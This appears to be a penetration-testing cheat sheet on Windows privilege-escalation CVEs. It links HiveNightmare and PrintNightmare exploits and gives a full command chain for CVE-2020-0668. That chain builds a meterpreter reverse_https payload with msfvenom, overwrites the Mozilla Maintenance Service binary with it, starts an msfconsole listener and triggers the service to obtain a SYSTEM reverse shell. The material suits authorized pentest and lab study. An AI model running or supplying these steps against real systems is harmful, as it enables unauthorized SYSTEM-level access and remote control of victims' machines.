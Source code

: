 

#### CVEs

- **[CVE-2021-36934](https://github.com/GossiTheDog/HiveNightmare) HiveNightmare, aka SeriousSam** Windows 10 

	Read of the SAM, SYSTEM, and SECURITY registry

- **[CVE-2021-1675/CVE-2021-34527]( [This](https://github.com/cube0x0/CVE-2021-1675)) PrintNightmare**

	If you have `SeLoadDriverPrivilege`, check for Spooler service:

	```powershell
	ls \\localhost\pipe\spoolss
	```

- [CVE-2020-0668](https://itm4n.github.io/cve-2020-0668-windows-service-tracing-eop/) on Windows Service Tracing &rarr; Use Visual Studio or look for prebuilt

  - look for any third-party software such as the  Mozilla Maintenance Service, that runs in the context of SYSTEM and is startable by unprivileged users or  [UsoDllLoader](https://github.com/itm4n/UsoDllLoader) or [DiagHub](https://github.com/xct/diaghub) to load the DLL and escalate our privileges

  - Generate a malware

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=4444 -f exe > maintenanceservice.exe
    ```

  - Generate a non broken copy

  	```cmd
  	copy .\maintenanceservice.exe .\maintenanceservice2.exe
  	```

  - Overwrite the privileges

    ```cmd
    C:\Tools\CVE-2020-0668\CVE-2020-0668.exe .\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
    ```

  - Overwrite the file with the malware

  	```cmd
  	copy /Y .\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
  	```

  - Start the listener

    ```bash
    msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST tun0; set LPORT 4444; exploit"
    ```

  - `net start MozillaMaintenance` will throw an error, but you should get the shell
